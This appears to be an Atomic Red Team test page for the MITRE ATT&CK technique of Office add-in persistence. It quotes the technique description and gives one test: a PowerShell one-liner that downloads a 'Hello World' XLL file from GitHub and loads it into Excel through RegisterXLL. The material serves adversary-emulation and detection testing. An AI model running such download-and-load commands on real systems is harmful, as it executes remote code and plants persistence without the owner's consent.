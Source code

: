 # T1137.006 - Office Application Startup: Add-ins
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/006)
<blockquote>Adversaries may abuse Microsoft Office add-ins to obtain persistence on a compromised system. Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins) There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

Add-ins can be used to obtain persistence because they can be set to execute code when an Office application starts. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)](#atomic-test-1---code-executed-via-excel-add-in-file-xll)


<br/>

## Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)
Downloads a XLL file and loads it using the excel add-ins library.
This causes excel to display the message "Hello World"
Source of XLL - https://github.com/edparcell/HelloWorldXll

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xll_url | url of the file HelloWorldXll.xll | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/HelloWorldXll.xll|
| local_file | name of the xll file | Path | $env:tmp&#92;HelloWorldXll.xll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -c "iwr -URI '#{xll_url}' -o '#{local_file}'; IEX ((new-object -ComObject excel.application).RegisterXLL('$env:tmp\HelloWorldXll.xll'))"
```






<br/>
